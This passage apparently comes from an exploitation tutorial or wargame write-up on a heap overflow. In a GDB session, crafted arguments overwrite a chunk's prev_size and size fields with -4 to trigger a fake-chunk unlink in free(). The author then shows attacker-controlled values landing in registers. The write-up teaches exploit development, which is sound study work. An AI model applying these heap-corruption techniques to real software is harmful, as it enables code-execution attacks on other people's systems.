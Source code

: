 \begin{lstlisting}
(gdb) d b
Delete all breakpoints? (y or n) y
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` A B
Program received signal SIGSEGV, Segmentation fault.
0x080498fd in free (mem=0x804c030) at common/malloc.c:3638
(gdb) i r
eax            0x0      0
ecx            0x0      0
edx            0x0      0
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff710       0xbffff710
ebp            0xbffff758       0xbffff758
esi            0x0      0
edi            0x0      0
eip            0x80498fd        0x80498fd <free+217>
eflags         0x210202 [ IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) disas $eip
Dump of assembler code for function free:
0x08049824 <free+0>:    push   %ebp
0x08049825 <free+1>:    mov    %esp,%ebp
...
0x080498f4 <free+208>:  mov    %eax,-0x18(%ebp)
0x080498f7 <free+211>:  mov    -0x14(%ebp),%eax
0x080498fa <free+214>:  mov    -0x18(%ebp),%edx
0x080498fd <free+217>:  mov    %edx,0xc(%eax)
0x08049900 <free+220>:  mov    -0x18(%ebp),%eax
0x08049903 <free+223>:  mov    -0x14(%ebp),%edx
0x08049906 <free+226>:  mov    %edx,0x8(%eax)
...
\end{lstlisting}

Excellent! We broke something badly enough to cause a segfault! It doesn't take much
to see why either. Checking our registers, then disassembling where the instruction
pointer was at tells us we crashed in our \texttt{unlink} macro because \texttt{\%eax}
was null when we tried to perform \texttt{FD->bk = BK} (\texttt{mov \%edx,0xc(\%eax)}).
This is easy enough to see, since we overwrote chunk \texttt{b}'s \texttt{prev\_size}
and \texttt{size} fields with -4, which forces \texttt{unlink} to process a fake chunk
within chunk \texttt{b}. because we only filled \texttt{b} with the single byte representing
``A", the fake chunk's \texttt{fd} and \texttt{bk} pointers were obviously null, leading to the crash.

Now, let's load values into the \texttt{fd} and \texttt{bk} pointers of our fake chunk.
As covered previously, we expect these to be at \texttt{\&b + 0xc} and \texttt{\&b + 0x10}.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"A"*4+"B"*4)'` C
Program received signal SIGSEGV, Segmentation fault.
0x080498fd in free (mem=0x804c030) at common/malloc.c:3638
(gdb) i r eip
eip            0x80498fd        0x80498fd <free+217>
(gdb) i r eax
eax            0x41414141       1094795585
(gdb) i r edx
edx            0x42424242       1111638594
\end{lstlisting}

